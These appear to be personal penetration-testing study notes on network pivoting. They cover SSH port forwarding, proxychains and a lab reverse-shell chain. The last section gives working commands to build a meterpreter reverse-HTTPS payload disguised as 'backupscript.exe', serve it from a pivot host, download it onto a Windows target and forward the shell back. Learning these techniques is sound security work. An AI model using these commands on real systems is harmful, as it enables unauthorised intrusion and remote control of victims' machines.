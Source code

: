 
![[Pasted image 20240727141631.png]]

- windows server is in internal network (cannot access using Attack host)
- use ubuntu server to interact with windows server through layer 2(say switch)

# The Networking Behind Pivoting

**Network Interface Card**
- PC can have multiple physical or virtual NICs, each connecting to different networks for simultaneous access.
- use `ifconfig` to find
- `tun0` VPN connection

**DMZ**
- Demilitarized Zone 
- network that hosts an organization's external-facing services and exposes them to the internet
- when compramized machine of DMZ cannot access other internal Netwok

## Routing

- in Pivoting , one computer acts as routers
- routes packets from attack host to target via pivot host
- routing table used for forward traffic to destination
- `netstat -r` or `ip route`


# Dynamic Port Forwarding
idea is to send packets from attack host to target and scan like nmap ping sweep

Port forwarding -> redirect a communication request from one port to another.

![[Pasted image 20240727145934.png]]

- MySQL is running local in Victim machine
- port forward to our attack host
- but how??
- use SSH or SOCKS forward communication from 1234(As out wish) to 3306(MySQL)


```shell-session
ssh -L 1234:localhost:3306 ubuntu@10.129.202.64
```

- verify
```shell-session
netstat -antp | grep 1234
```

```shell-session
nmap -v -sV -p1234 localhost
```

 `local port:server:port` 
 
1234:localhost:3306(Mysql)

- Multiple Forward

```shell-session
ssh -L 1234:localhost:3306 -L 8080:localhost:80 ubuntu@10.129.202.64
```


## Setting up to Pivot

- `ifconfig`
	-  One connected to our attack host (`ens192`)
	- One communicating to other hosts within a different network (`ens224`)
	- The loopback interface (`lo`).

- scan host of other network ?
- but How??? Do we have route to that network from attack host


![[Pasted image 20240727150935.png]]


- use nmap to scan host of victim internal network 
- packets from nmap transfer from 9050 to victim compromised server to scan internal network through ssh client

- how to transfer packets to 9050 (SOCKS proxy port) ???

- here comes Proxychains

```shell-session
ssh -D 9050 ubuntu@10.129.202.64
```

#### /etc/proxychains.conf


```shell-session
tail -4 /etc/proxychains.conf

# meanwile
# defaults set to "tor"
socks4 	127.0.0.1 9050
```

#### Using Nmap with Proxychains

==only perform a `full TCP connect scan` over proxychains.==

 proxychains cannot understand partial packets

#### Using Metasploit with Proxychains

```shell-session
proxychains msfconsole
```



# Remote/Reverse Port Forwarding with SSH

- idea is to get connection from target to attack host machine rev shell

![[Pasted image 20240728002933.png]]

`But what happens if we try to gain a reverse shell?`

- `outgoing connection` for the Windows host is only limited to the `172.16.5.0/23` network.
- find a pivot host, which is a common connection point between attack host and target
- in this case ubuntu is pivot host

![[Pasted image 20240723230547.png]]

- windows server give reverse shell connection to pivot host on port 8080
- from ubuntu server we forward the connection to Attack host (Reverse ssh connection)

#### Creating a Windows Payload with msfvenom

```shell-session
msfvenom -p windows/x64/meterpreter/reverse_https lhost= <InternalIPofPivotHost> -f exe -o backupscript.exe LPORT=8080
```

- this gives connection to pivot host from windows
- this payload is created in Attach host transfer to pivot host and then to Target windows

#### Configuring & Starting the multi/handler


```shell-session
use exploit/multi/handler
```

```shell-session
set payload windows/x64/meterpreter/reverse_https
```

```shell-session
set lhost 0.0.0.0
```

```shell-session
set lport 8000
```

```shell-session
 run
```

#### Transferring Payload to Pivot Host

```shell-session
scp backupscript.exe ubuntu@<ipAddressofTarget>:~/
```

#### Starting Python3 Webserver on Pivot Host

```shell-session
python3 -m http.server 8123
```

#### Downloading Payload from Windows Target

```powershell-session
Invoke-WebRequest -Uri "http://172.16.5.129:8123/backupscript.exe" -OutFile "C:\backupscript.exe"
```

#### Using SSH -R 

- Transfering Reverse shell connnection from Pivot host -> attack host

```shell-session
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```

![[Pasted image 20240728150113.png]]

